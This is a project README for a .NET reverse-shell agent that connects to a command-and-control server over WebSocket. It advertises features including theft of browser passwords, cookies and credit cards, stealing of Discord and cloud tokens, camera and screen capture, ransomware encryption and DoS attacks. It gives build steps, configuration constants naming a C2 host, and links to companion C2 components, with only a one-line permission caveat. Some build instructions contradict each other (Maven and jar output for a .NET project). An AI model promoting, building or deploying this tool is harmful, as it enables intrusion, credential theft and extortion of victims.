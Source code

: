 # .NET Reverse Shell with Websockets

This .NET project implements a reverse shell that connects to a command and control server using WebSocket.

## Features

- Remote Shell  
- Upload Files to Command and Control Server  
- Play rick roll on target computer  
- Access Camera  
- Screen Capture  
- Exfiltrate Browser Info (cookies, history, passwords, credit cards, and download history)  
- Encrypt Files (Ransomware)  
- Token Stealing (Discord, AWS, AZURE, GCP, etc)  
- DOS Attack  


## Table of Contents

- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Usage](#usage)
- [Configuration](#configuration)
- [Security Considerations](#security-considerations)
- [C2 Components](#C2-Components)
- [Contributing](#contributing)

## Prerequisites

Before you begin, ensure you have the following prerequisites:

- Visual Studio Installed

## Installation

1. Clone the repository:

    ```bash
    git clone https://github.com/The-Hustler-Hattab/WebSocketReverseShellDotNet.git
    ```

2. Navigate to the project folder:

    ```bash
    cd WebSocketReverseShellDotNet
    ```

3. Build the project using Maven:

    ```bash
    dotnet build
    ```

## Usage
The project will generate jar with dependencies and exe file.
To use the reverse shell, click on the exe file. The reverse shell will connect to the command and control server and wait for commands.

## Configuration
Configure the reverse shell by editing the utils/constants file. Update the following properties:
```C#
        public const String SERVER_WEBSOCKET_URI = "wss://c2-server.mtattab.com/reverseShellClients";
        public const String SERVER_HTTP_URI = "https://c2-server.mtattab.com";
```


## Security Considerations
Ensure that you have permission to run the reverse shell on the target system.
Use secure connections (e.g., HTTPS) for the command and control server.
Implement additional security measures as needed for your specific use case.

## C2-Components

[C2 UI](https://github.com/The-Hustler-Hattab/c2-ui)  
[C2 Server](https://github.com/The-Hustler-Hattab/C2JavaServer)   
[C2 Java Agent](https://github.com/The-Hustler-Hattab/ReverseShellWebSocketAgent)  
[C2 .NET Agent](https://github.com/The-Hustler-Hattab/WebSocketReverseShellDotNet)  

## Contributing
Contributions are welcome! 
Please make a pull request for new features